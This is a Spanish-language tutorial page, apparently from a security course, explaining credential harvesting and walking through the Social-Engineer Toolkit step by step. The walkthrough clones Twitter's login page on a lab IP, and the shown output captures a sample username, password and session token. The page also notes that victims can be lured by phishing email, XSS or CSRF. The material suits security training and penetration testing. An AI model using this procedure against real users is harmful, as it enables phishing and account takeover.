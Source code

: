 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Credential Harvesting

La recolección de credenciales es una técnica de recopilan credenciales de usuario (como ID de usuario, direcciones de correo electrónico, contraseñas y otra información de inicio de sesión).

### ¿Cómo funciona la recolección de credenciales?

Lo más habitual es que se instale un recolector de credenciales  como una extensión maliciosa de un sitio web o una aplicación. Una vez instalado, el recolector registra cualquier información que los usuarios ingresen durante el proceso de inicio de sesión.

Debido a que los recolectores de credenciales registran todos los inicios de sesión de manera indiscriminada, los ciberdelincuentes pueden crear una reserva de nombres de usuario y contraseñas.

Si un ciberdelincuente tiene acceso a una o más contraseñas comprometidas que un individuo usó en el pasado, esa credencial le proporciona un excelente punto de partida para adivinar su información de inicio de sesión para otros sitios o sistemas.

### Técnicas comunes utilizadas en ataques de recolección de credenciales <a href="#techniques" id="techniques"></a>

La recolección de credenciales normalmente se lleva a cabo junto con otra técnica de ciberataque. Métodos de ataque más frecuentes incluyen los siguientes:

* **Malware**
* **Phishing**
* **Suplantación de dominio**
* **Ataques Man-in-the-Middle (MitM)**

Una de las formas más comunes en que los atacantes realizan la recolección de credenciales es mediante el uso de correos electrónicos de phishing y de phishing con enlaces que podrían redirigir a un usuario a un sitio falso. Este "sitio falso" podría simular un servicio en la nube legítimo, como Gmail, Office 365 o incluso un sitio de redes sociales como Twitter, LinkedIn, Instagram o Facebook. Por eso es tan importante utilizar la autenticación multifactor. Sin embargo, en algunos casos, los atacantes podrían eludir la autenticación multifactor redirigiendo al usuario a un sitio malicioso y robando una cookie de sesión del navegador del usuario.

Muchos servicios y aplicaciones alojadas en la nube utilizan el inicio de sesión único (SSO) y otros utilizan autenticación federada. A veces, las aplicaciones basadas en la nube le permiten iniciar sesión con sus credenciales de Google, Apple o Facebook. Los atacantes podrían redirigir a los usuarios a sitios web suplantados que pueden parecer páginas de inicio de sesión legítimas de Google, Apple, Facebook o Twitter. Desde allí, el atacante podría robar el nombre de usuario y la contraseña de la víctima.&#x20;

#### Ataque de recolección de credenciales mediante correos electrónicos de ingeniería social y phishing

Realizar un ataque de ingeniería social y crear una instancia de un sitio web falso para realizar un ataque de recolección de credenciales.

**Paso 1** . Inicie SET ingresando el comando **setoolkit**.

**Paso 2** . Seleccioneen el menú principal, como se muestra en el Ejemplo 7-1.

Inicio del ataque de ingeniería social

```
Select from the menu:
   1) Social-Engineering Attacks
   2) Penetration Testing (Fast-Track)
   3) Third Party Modules
   4) Update the Social-Engineer Toolkit
   5) Update SET configuration
   6) Help, Credits, and About
  99) Exit the Social-Engineer Toolkit
set> 1
```

**Paso 3** . Selección de vectores de ataque a sitios web

```
Select from the menu:
    1) Spear-Phishing Attack Vectors
    2) Website Attack Vectors
    3) Infectious Media Generator
    4) Create a Payload and Listener
    5) Mass Mailer Attack
    6) Arduino-Based Attack Vector
    7) Wireless Access Point Attack Vector
    8) QRCode Generator Attack Vector
    9) Powershell Attack Vectors
   10) Third Party Modules
   99) Return back to the main menu.
set>2 
```

**Etapa 4** . En el menú y la explicación que aparecen a continuación (consulte el Ejemplo 7-3), seleccione **Método de ataque de recolección de credenciales** .

```
The Web Attack module is a unique way of utilizing multiple web-based
attacks in order to compromise the intended victim.
The Java Applet Attack method will spoof a Java Certificate and
deliver a metasploit based payload. Uses a customized java applet
created by Thomas Werth to deliver the payload.
The Metasploit Browser Exploit method will utilize select Metasploit
browser exploits through an iframe and deliver a Metasploit payload.
The Credential Harvester method will utilize web cloning of a
website that has a username and password field and harvest all
the information posted to the website.
The TabNabbing method will wait for a user to move to a different
tab, then refresh the page to something different.
The Web-Jacking Attack method was introduced by white_sheep, emgent.
This method utilizes iframe replacements to make the highlighted URL
link to appear legitimate however when clicked a window pops up then
is replaced with the malicious link. You can edit the link replacement
settings in the set_config if it's too slow/fast.
The Multi-Attack method will add a combination of attacks through
the web attack menu. For example, you can utilize the Java Applet,
Metasploit Browser, Credential Harvester/Tabnabbing all at once to see
which is successful.
The HTA Attack method will allow you to clone a site and perform
powershell injection through HTA files which can be used for
Windows-based powershell exploitation through the browser.
   1) Java Applet Attack Method
   2) Metasploit Browser Exploit Method
   3) Credential Harvester Attack Method
   4) Tabnabbing Attack Method
   5) Web Jacking Attack Method
   6) Multi-Attack Web Method
   7) HTA Attack Method
  99) Return to Main Menu
set:webattack>3
```

_**Ejemplo 7-4**_  : Selección de una plantilla web predefinida

**Paso 5** . En el menú que aparece a continuación (ver Ejemplo 7-4), seleccione **1) Plantillas web** para utilizar una plantilla web predefinida (Twitter). Como puede ver, también tiene opciones para clonar un sitio web existente o importar un sitio web personalizado. En este ejemplo, utiliza una plantilla web predefinida.

\


**Paso 6** . En el menú que se muestra en el Ejemplo 7-5, ingrese la dirección IP del host que le gustaría usar para recopilar las credenciales del usuario (en este caso, **192.168.88.225** ). En este ejemplo, SET ha reconocido la dirección IP del sistema atacante. Si esto le ocurre a usted, puede simplemente presionar **Enter** para seleccionar la dirección IP del sistema atacante.

_**Ejemplo 7-5**_  : Ingreso de la dirección IP del recolector de credenciales

<pre><code><strong>                [-] Credential harvester will allow you to utilize the clonecapabilities within SET[-] to harvest credentials or parameters from a website as well asplace them into a report------------------------------------------------------------------------- * IMPORTANT * READ THIS BEFORE ENTERING IN THE IP ADDRESS *IMPORTANT * --The way that this works is by cloning a site and looking for formfields to rewrite. If the POST fields are not usual methods forposting forms this could fail. If it does, you can always save theHTML, rewrite the forms to be standard forms and use the "IMPORT"feature. Additionally, really important:If you are using an EXTERNAL IP ADDRESS, you need to place theEXTERNAL IP address below, not your NAT address. Additionally, ifyou don't know basic networking concepts, and you have a privateIP address, you will need to do port forwarding to your NAT IPaddress from your external IP address. A browser doesn't know howto communicate with a private IP address, so if you don't specifyan external IP address if you are using this from an externalperspective, it will not work. This isn't a SET issue this is hownetworking works.set:webattack> IP address for the POST back in Harvester/Tabnabbing[192.168.88.225]:
</strong></code></pre>

**Paso 7** . Seleccione **3. Twitter** , como se muestra en el ejemplo 7-6.

_**Ejemplo 7-6**_  : Selección de la plantilla para Twitter

<pre><code><strong>                --------------------------------------------------------                 **** Important Information ****For templates, when a POST is initiated to harvestcredentials, you will need a site for it to redirect.You can configure this option under:      /etc/setoolkit/set.configEdit this file, and change HARVESTER_REDIRECT andHARVESTER_URL to the sites you want to redirect toafter it is posted. If you do not set these, thenit will not redirect properly. This only goes fortemplates.--------------------------------------------------------  1. Java Required  2. Google  3. Twitterset:webattack> Select a template:3[*] Cloning the website: http://www.twitter.com[*] This could take a little bit...The best way to use this attack is if username and password formfields are available. Regardless, this captures all POSTs on awebsite.[*] The Social-Engineer Toolkit Credential Harvester Attack[*] Credential Harvester is running on port 80[*] Information will be displayed to you as it arrives below:
</strong>
              
</code></pre>

Luego, puede redirigir a los usuarios a este sitio falso de Twitter enviando un correo electrónico de phishing o aprovechando vulnerabilidades web como secuencias de comandos entre sitios (XSS) y falsificación de solicitudes entre sitios (CSRF). La Figura 7-2 muestra la página de inicio de sesión falsa de Twitter, donde el usuario ingresa sus credenciales.

_Página de inicio de sesión falsa_



El ejemplo 7-7 muestra cómo el sistema atacante recopila las credenciales del usuario. El nombre de usuario ingresado es _santosomar_ y la contraseña es _superbadpassword_ . También puede ver el token de sesión.

_**Ejemplo 7-7**_ _: Recopilación de credenciales de usuario_

```
192.168.78.238 - - [28/Jun/2021 23:07:41] "GET / HTTP/1.1" 200 -[*] WE GOT A HIT! Printing the output:POSSIBLE USERNAME FIELD FOUND: session[username_or_email]=santosomarPOSSIBLE PASSWORD FIELD FOUND: session[password]=superbadpasswordPARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52PARAM: scribe_log=POSSIBLE USERNAME FIELD FOUND: redirect_after_login=PARAM: authenticity_token=dba33c0b2bfdd8e6dcb14a7ab4bd121f38177d52[*] WHEN YOU'RE FINISHED, HIT CONTROL-C TO GENERATE A REPORT.192.168.78.238 - - [28/Jun/2021 23:08:27] "POST /sessions HTTP/1.1"302 - 
```

<mark style="color:red;">**Recursos**</mark>&#x20;

{% embed url="https://www.crowdstrike.com/cybersecurity-101/cyberattacks/credential-harvesting/" %}
